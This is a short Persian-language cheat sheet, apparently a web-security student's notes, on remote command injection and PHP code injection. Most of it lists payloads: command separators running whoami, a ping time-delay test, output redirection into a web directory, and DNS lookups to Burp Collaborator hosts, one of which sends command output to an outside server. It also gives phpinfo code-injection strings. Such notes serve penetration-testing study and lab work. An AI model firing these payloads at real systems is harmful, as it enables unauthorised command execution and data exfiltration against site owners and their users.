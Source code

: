 # Remote Command Execution

## Concept
- در بخش های زیر به دنبال این آسیب پذیری می گردیم :
  - انتخاب یک آیتم از درون dropdown box
    - باید برای تغییر این پارامتر و نیز مشاهده تاثیر در پاسخ، حتما از Burp استفاده کنیم
  - درون فیلدهای بخش ثبت نظرات که ممکن است از دستورات سیستمی برای پردازش اطلاعات کاربر (مانند ایمیل) استفاده شده باشد
    - هنگام استفاده از Burp باید حتما URL Encoding داشته باشیم (مثلا به جای فاصله از + استفاده کنیم)

## Payloads
```
;whoami
;%20whoami
&whoami
&&whoami
|whoami
||whoami
%0Awhoami
```

## Blind OS Command Injection
- **Time delays** : ```x||ping+-c+10+127.0.0.1||```
<p align="right">در این حالت پس از اجرای دستور فوق، 10 ثانیه طول می کشد تا response را در مرورگر مشاهده کنیم</p> 

- **Output redirection** : ```||whoami>/var/www/images/output.txt||```
<p align="right">عکس ها در مسیر فوق ذخیره شده اند، در این حالت، خروجی دستور در مسیر share شده ذخیره می گردد و بعدا می توانیم یکی از عکس های محصولات را باز کرده، سپس نام  فایل را با نام output.txt تغییر دهیم، تا نتیجه دستور را مشاهده کنیم</p>

- **Out-of-band interaction** : ```x||nslookup+7goyqnfizle0fk6mj5zk5qjtrkxalz.burpcollaborator.net```
<p align="right">در اینحالت سرور می تواند به یک آدرس بیرونی وصل شود، برای بررسی از Burp Collaborator استفاده می کنیم </p>

- **Out-of-band data exfilteration** : ```||nslookup+`whoami`.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net||```
<p align="right">در اینحالت می خواهیم نتیجه دستور در کوئری DNS به سمت سرور مهاجم در اینترنت ارسال شود، که در اینجا از Burp Collaborator استفاده شده (باید بر روی Pull now کلیک شود) و خروجی به شکل "peter-jSRUyX.x0y8fg1javlrivvsd4hp2koh58byzn.burpcollaborator.net.burpcollaborator.net" خواهد بود. باید بر روی</p>

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

